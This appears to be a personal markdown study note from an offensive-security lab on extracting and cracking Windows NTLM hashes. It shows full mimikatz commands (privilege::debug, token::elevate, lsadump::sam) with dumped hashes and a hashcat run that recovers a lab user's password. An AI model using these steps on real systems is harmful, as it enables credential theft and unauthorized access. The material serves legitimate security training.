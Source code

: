 
# Cracking NTLM Hashes
On [Windows](../../computers/windows/README.md) machines passwords are [hashed](../../computers/concepts/cryptography/hashing.md) and stored in the [Security Account Manager](../../computers/windows/SAM.md)(SAM). Before being stored, passwords are hashed using [NTLM](../../networking/protocols/NTLM.md). Unfortunately, NTLM hashes are pretty insecure and an 8 character password can be *cracked within 2 hours*.
## NTLM Security
NTLM was created to replace the original protocol called LM. LM used DES which is known to be a very week algorithm. Additionally, LM was *case insensitive* which decreased the [Keyspace](password-cracking.md#Keyspace) making it easier to crack. 

NTLM hashes are more secure because they are *case sensitive* and use the *MD4* hashing algorithm. However, *they are not salted* (salting is when random bits are added to the beginning of a password before its hashed). Salting a password prevents it from being [brute-forced](../../cybersecurity/TTPs/cracking/brute-force.md) using a [rainbow-table](../../cybersecurity/TTPs/cracking/rainbow-table.md).
## Getting the Hash
The SAM database file is located at `C:\Windows\system32\config\sam` and its contents can't just be copy pasted because Windows keeps a *file system lock* on it. Instead, we can use [Mimikatz](https://github.com/gentilkiwi/mimikatz).
### Finding Users to Impersonate
Before we use mimikatz, lets do some recon and find a user to impersonate. We can use `Get-LocalUser` in [powershell](../../coding/languages/powershell.md) to see a list of all of the users on the system:
```powershell
PS C:\Users\offsec> Get-LocalUser

Name               Enabled Description
----               ------- -----------
Administrator      False   Built-in account for administering the computer/domain
DefaultAccount     False   A user account managed by the system.
Guest              False   Built-in account for guest access to the computer/domain
nelly              True
offsec             True
WDAGUtilityAccount False   A user account managed and used by the system for Windows Defender Application Guard scen...
...
```
In the output, we see that there are two enabled users, `nelly` and `offsec`.
### Mimikatz
[mimikatz](../../cybersecurity/TTPs/actions-on-objective/tools/mimikatz.md) is a versatile Windows tool which can be used for password and hash attacks. One thing in particular it can do is extract password hashes *from the [LSASS](../../computers/windows/LSASS.md)* process's memory. LSASS, which runs with `SYSTEM` level privileges, caches NTLM hashes and other creds in its memory. We can use Mimikatz' *sekurlsa* module to extract them.

Because `lsass.exe` runs with `SYSTEM` level privileges, we need to run Mimikatz *as an Administrator* with the `SeDebugPrivilege` access right enabled. `SeDebugPrivilege` grants us the ability to *debug processes* we own as well as ones we don't own.
#### Starting Mimikatz
First, open powershell by running it as an administrator. Find the `mimikatz.exe` tool (usually you have to bring the executable onto the Windows system you've compromised) and run it with `.\mimikatz.exe`:
```powershell
PS C:\Windows\system32> cd C:\tools
PS C:\tools> ls
    Directory: C:\tools
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         5/31/2022  12:25 PM        1355680 mimikatz.exe

PS C:\tools> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz #
```
Once you start it, it will give you a little repl shell thing. Now you can run mimikatz commands.
#### Enabling Privileges
There are a few commands for extracting passwords/tokens/hashes, etc. but a lot of them require the `SeDebugPrivilege` access right and `SYSTEM` level privileges. We can use `privilege::debug` to gain those:
```powershell
mimikatz # privilege::debug
Privilege '20' OK
```
#### Token Elevation Module
Now that we have `SYSTEM` privileges, we can access the LSASS. Mimikatz will allow us to do that via it's *[Token Module](../../cybersecurity/TTPs/actions-on-objective/tools/mimikatz.md#Token%20Module)*. This module allows Mimikatz to interact with Windows *authentication tokens* in the LSASS. With this module, mimikatz can grab tokens and then impersonate them. If we use `token::elevate`, we can impersonate another process/ user by elevating our token to theirs:
```powershell
mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

656     {0;000003e7} 1 D 34811          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;000413a0} 1 F 6146616     MARKETINGWK01\offsec    S-1-5-21-4264639230-2296035194-3358247000-1001  (14g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 6217216     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)
```
Now we're impersonating `NT AUTHORITY\SYSTEM` built-in account.
#### Getting the Hash with `lsadump::sam`
Now we can dump tokens from the SAM and see if we can find a token for the `nelly` user we saw with `Get-LocalUser` before:
```powershell
mimikatz # lsadump::sam
Domain : MARKETINGWK01
SysKey : 2a0e15573f9ce6cdd6a1c62d222035d5
Local SID : S-1-5-21-4264639230-2296035194-3358247000
 
RID  : 000003e9 (1001)
User : offsec
  Hash NTLM: 2892d26cdf84d7a70e2eb3b9f05c425e
 
RID  : 000003ea (1002)
User : nelly
  Hash NTLM: 3ae8e5f0ffabb3a627672e1600f1ba10
...
```
## Cracking the Hash
Now that we have the NTLM hash for the `nelly` user, we can bring it to our cracking rig and crack it. First, we need to put it into a file with a `.hash` extension. Then we can use [hashcat](../../cybersecurity/TTPs/cracking/tools/hashcat.md) to crack it:
### Find the Right Hash Mode
Assuming the hash we gathered is a regular NTLM hash we can find the hash mode for it like so:
```bash
hashcat --help | grep -i "ntlm"   
                                                                            
   5500 | NetNTLMv1 / NetNTLMv1+ESS                           | Network Protocol
  27000 | NetNTLMv1 / NetNTLMv1+ESS (NT)                      | Network Protocol
   5600 | NetNTLMv2                                           | Network Protocol
  27100 | NetNTLMv2 (NT)                                      | Network Protocol
   1000 | NTLM                                                | Operating System
```
From the output, our hashmode is `1000`.
### Crack the Hash
Now we can run hashcat. For the wordlist we can use `rockyou.txt` and for the ruleset we can use `best64.rule`:
```bash
hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
hashcat (v6.2.5) starting
...
3ae8e5f0ffabb3a627672e1600f1ba10:nicole1                  
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1000 (NTLM)
Hash.Target......: 3ae8e5f0ffabb3a627672e1600f1ba10
Time.Started.....: Thu Jun  2 04:11:28 2022, (0 secs)
Time.Estimated...: Thu Jun  2 04:11:28 2022, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Mod........: Rules (/usr/share/hashcat/rules/best64.rule)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 17926.2 kH/s (2.27ms) @ Accel:256 Loops:77 Thr:1 Vec:8
...
```
Hashcat has managed to crack the hash for the password `nicole1`. 

> [!Resources]
> - [Mimikatz Repo](https://github.com/gentilkiwi/mimikatz)
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.
